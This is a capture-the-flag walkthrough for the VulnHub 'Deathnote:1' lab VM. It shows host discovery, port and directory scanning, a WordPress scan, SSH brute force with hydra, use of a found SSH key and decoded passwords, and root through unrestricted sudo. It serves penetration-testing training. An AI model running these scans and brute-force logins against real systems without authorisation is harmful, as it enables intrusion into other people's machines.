# Deathnote:1 - Vulnhub Writeup

This is a walkthrough for the **[Deathnote:1](https://www.vulnhub.com/entry/deathnote-1,739/)** virtual machine available on [VulnHub](https://www.vulnhub.com/). The goal is to gain root access and retrieve the final flag.


---

## 1. Find the VM IP Address

Using `netdiscover` to scan for the machine IP:

```bash
netdiscover -i eth0 -r 192.168.1.0/24
```

**Result:**


---

## 2. Scan IP Address for Open Ports and Services

Using `nmap` to find open ports and services:

```bash
nmap -sV 192.168.1.60
```

**Result:**
- Port 80: HTTP
- Port 22: SSH



---

## 3. Access the Website

Accessing the website using the IP:



The webpage did not render correctly, so I added the hostname **deathnote.vuln** to `/etc/hosts`:

```bash
vim /etc/hosts
```

Add the following line:
```
192.168.1.60 deathnote.vuln
```

**Reload the webpage:**


---

## 4. Find Hints in the Webpage

Examining the webpage reveals a hint:



---

## 5. Directory Enumeration

Running `gobuster` to find hidden files:

```bash
gobuster dir -u http://192.168.1.60 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,htm,html,old,bak,txt
```

**Result:** Found `robots.txt`.



Checking `robots.txt`:



It revealed a file **important.jpg**, but accessing it showed errors.

---

## 6. Download and Inspect `important.jpg`

Downloading the file:

```bash
wget http://192.168.1.60/important.jpg
```



Checking the file type:

```bash
file important.jpg
cat important.jpg
```



---

## 7. Scan WordPress Site

Identified WordPress running on the server. Scanning with `wpscan`:

```bash
wpscan -v --url http://192.168.1.60/wordpress/
```

**Result:** Found an uploads directory:



Accessing `/wordpress/wp-content/uploads/2021/07`:



**Files Found:**
- `user.txt`
- `notes.txt`

Downloading both files:

```bash
wget http://192.168.1.60/wordpress/wp-content/uploads/2021/07/notes.txt \
     http://192.168.1.60/wordpress/wp-content/uploads/2021/07/user.txt
```



---

## 8. Brute Force SSH Login

Using Hydra to brute-force SSH:

```bash
hydra -V -L user.txt -P notes.txt 192.168.1.60 ssh
```

**Result:**
- Username: `l`
- Password: `death4me`




---

## 9. SSH Login as User `l`

Logging in:

```bash
ssh l@192.168.1.60
```



---

## 10. Decode User Flag

Found a file containing Brainfuck code:



Decoded it using an online decoder:

[https://www.cachesleuth.com/bfook.html](https://www.cachesleuth.com/bfook.html)



**Result:** text: 'i think u got the shell , but you wont be able to kill me -kira'.

---

## 11. Find SSH key and another user `kira`.



---

## 12. SSH Login as `kira`

Using the SSH key:

```bash
ssh kira@192.168.1.60 -i .ssh/id_rsa
```



---

## 13. Decode Base64 Content

Found `kira.txt` with base64-encoded content:

```bash
cat kira.txt | base64 -d
```



---

## 14. Analyze `case.wav`

Found `case.wav`. Decoded using CyberChef:




Decoded another base64 string:

```bash
echo "cGFzc3dkIDoga2lyYWlzZXZpbCA=" | base64 -d
```

**Password Found:** `kiraisevil`



---

## 15. Privilege Escalation

Checking sudo permissions for `kira`:

```bash
sudo -l
```

**Result:** `kira` can run any command with sudo.



Switching to root:

```bash
sudo su
```

---

## 16. Capture the Flag

Retrieved the final flag as root.



---

## Conclusion

The **Deathnote:1** VM was a great challenge involving enumeration, brute-forcing, decoding Brainfuck, base64 encryption, and privilege escalation.

---

### Tools Used:
- netdiscover
- nmap
- gobuster
- wpscan
- hydra
- SSH
- CyberChef
- Online Brainfuck Decoder

---

## Screenshots

All screenshots can be found in the [img](./img) directory:
```
img/
├── img1.jpg
├── img2.jpg
├── img3.jpg
├── ...
├── img27.jpg
└── img28.jpg
```
